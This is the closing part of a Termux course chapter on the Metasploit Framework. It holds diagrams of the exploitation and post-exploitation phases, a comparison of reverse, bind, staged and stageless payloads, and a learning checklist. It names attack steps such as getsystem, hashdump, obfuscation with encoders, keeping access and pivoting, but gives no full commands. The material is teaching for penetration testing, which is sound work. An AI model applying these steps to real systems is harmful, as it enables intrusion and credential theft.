│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                    PHASE 4: EXPLOITATION                            │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │  check → (verify vulnerability)                              │  │   │
│   │  │  exploit → (launch attack)                                   │  │   │
│   │  │  [+] Meterpreter session 1 opened                            │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                      │                                       │
│                                      ▼                                       │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │                    PHASE 5: POST-EXPLOITATION                        │   │
│   │  ┌──────────────────────────────────────────────────────────────┐  │   │
│   │  │  sysinfo → getsystem → hashdump → run post/...              │  │   │
│   │  │  dump data, maintain access, pivot to other systems         │  │   │
│   │  └──────────────────────────────────────────────────────────────┘  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Diagram 3: Payload Types Comparison

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      PAYLOAD TYPES COMPARISON                                │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                      REVERSE PAYLOADS                              │    │
│   │                                                                     │    │
│   │   [ATTACKER]                    [TARGET]                            │    │
│   │      │                              │                               │    │
│   │      │◄─────── Connection ──────────│                               │    │
│   │      │         Request              │                               │    │
│   │      │                              │                               │    │
│   │      │◄─────── Payload ─────────────│                               │    │
│   │      │         Delivery             │                               │    │
│   │      │                              │                               │    │
│   │   LISTENING                     CONNECTS BACK                      │    │
│   │                                                                     │    │
│   │   Use when: Target behind NAT, Outbound allowed                     │    │
│   │                                                                     │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                       BIND PAYLOADS                                │    │
│   │                                                                     │    │
│   │   [ATTACKER]                    [TARGET]                            │    │
│   │      │                              │                               │    │
│   │      │─────── Connection ─────────►│                               │    │
│   │      │         Request              │                               │    │
│   │      │                              │                               │    │
│   │      │─────── Payload ────────────►│                               │    │
│   │      │         Delivery             │                               │    │
│   │      │                              │                               │    │
│   │   CONNECTS                      LISTENING                          │    │
│   │                                                                     │    │
│   │   Use when: Target has public IP, No NAT                            │    │
│   │                                                                     │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
│   ┌────────────────────────────────────────────────────────────────────┐    │
│   │                   STAGED vs STAGELESS                               │    │
│   │                                                                     │    │
│   │   STAGED:                         STAGELESS:                        │    │
│   │   - Small stager first            - Complete payload embedded       │    │
│   │   - Downloads full payload        - No secondary download           │    │
│   │   - Smaller file size             - Larger file size                │    │
│   │   - May be blocked                - Works when staging blocked      │    │
│   │                                                                     │    │
│   │   Example:                        Example:                          │    │
│   │   windows/meterpreter/            windows/meterpreter_               │    │
│   │   reverse_tcp                     reverse_tcp                       │    │
│   │                                                                     │    │
│   └────────────────────────────────────────────────────────────────────┘    │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

### Knowledge Verification Checklist

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                      CHAPTER 35 COMPLETION CHECKLIST                         │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                              │
│  CORE CONCEPTS:                                                              │
│  ☐ Understood Metasploit architecture                                      │
│  ☐ Learned module types (exploits, payloads, auxiliary, post)              │
│  ☐ Installed Metasploit via proot-distro                                   │
│  ☐ Mastered msfconsole navigation                                          │
│                                                                              │
│  BASIC OPERATIONS:                                                           │
│  ☐ Used search command for modules                                          │
│  ☐ Configured exploit options (RHOSTS, LHOST)                              │
│  ☐ Launched exploits successfully                                           │
│  ☐ Managed sessions                                                         │
│                                                                              │
│  PAYLOADS:                                                                   │
│  ☐ Created payloads with msfvenom                                           │
│  ☐ Set up handlers for reverse shells                                       │
│  ☐ Understand staged vs stageless                                           │
│  ☐ Used encoders for obfuscation                                            │
│                                                                              │
│  METERPRETER:                                                                │
│  ☐ Executed basic commands (sysinfo, getuid)                                │
│  ☐ Performed file operations                                                │
│  ☐ Used post-exploitation modules                                           │
│  ☐ Escalated privileges (getsystem)                                         │
│                                                                              │
│  ADVANCED TECHNIQUES:                                                        │
│  ☐ Configured database                                                      │
│  ☐ Used workspaces                                                          │
│  ☐ Imported Nmap scans                                                      │
│  ☐ Created Android payloads                                                 │
│                                                                              │
│  SECURITY AWARENESS:                                                         │
│  ☐ Understood legal implications                                            │
│  ☐ Know ethical testing guidelines                                          │
│  ☐ Can clean up after testing                                               │
│  ☐ Understand responsible disclosure                                        │
│                                                                              │
│  FINAL ASSESSMENT:                                                           │
│  ☐ Completed all quiz questions                                             │
│  ☐ Reviewed interview questions                                             │
│  ☐ Understood real-world scenarios                                          │
│  ☐ Ready for Chapter 36: PhoneSploit & ADB                                  │
│                                                                              │
│  SCORE: _____/25 items completed                                            │
│                                                                              │
│  Next Steps:                                                                 │
│  • Practice in lab environment                                              │
│  • Set up vulnerable VMs                                                    │
│  • Try different payloads                                                   │
│  • Learn post-exploitation techniques                                       │
│                                                                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

**Chapter 35: Metasploit Framework - Complete! 🎉**

*Enhanced content added for comprehensive learning experience*
*Created by T3rmuxk1ng | Termux Full Course*
